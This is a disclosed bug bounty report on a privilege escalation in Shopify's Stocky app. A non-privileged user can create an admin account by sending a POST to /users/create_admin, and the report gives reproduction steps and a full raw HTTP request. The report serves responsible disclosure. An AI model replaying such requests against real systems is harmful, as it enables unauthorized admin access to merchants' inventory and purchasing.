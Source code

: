 # A non-privileged user may create an admin account in Stocky

## Report Details
- **Report ID**: 1245736
- **URL**: https://hackerone.com/reports/1245736
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-06-27T14:57:46.064Z
- **Disclosed**: 2021-11-25T20:43:16.403Z

## Reporter
- **Username**: stapia
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
##Summary:
A non-privileged Stocky user (created within Stocky)  may be able to create a new admin user.

##Steps to reproduce:
1.Create a non-privileged user in Stocky, don't give admin privileges to that user.
2.Login with the non-privileged user and go to https://stocky.shopifyapps.com/users/me, update any field and intercept the request.
3. Make a POST request to /users/create_admin with the Cookies and Token that you intercepted from the previous steps.
4. Log out from Stocky and Login with the new user, you will have admin privileges.

```
POST /users/create_admin HTTP/2
Host: stocky.shopifyapps.com
Cookie:[REPLACE COOKIES]
Content-Length: 277
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="91", " Not;A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: https://stocky.shopifyapps.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://stocky.shopifyapps.com/preferences/users
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

utf8=%E2%9C%93&authenticity_token=[REPLACE TOKEN]&user%5Bfirst_name%5D=██████&user%5Blast_name%5D=████████&user%5Bemail%5D=██████████&commit=Create+%26+Login
```

## Impact

A non-privileged Stocky user may get full admin privileges within the app, which would allow that user to update the inventory, stock, vendors, place purchase orders, etc, even if that user doesn't have those privileges within Shopify.

## Attachments
No attachments
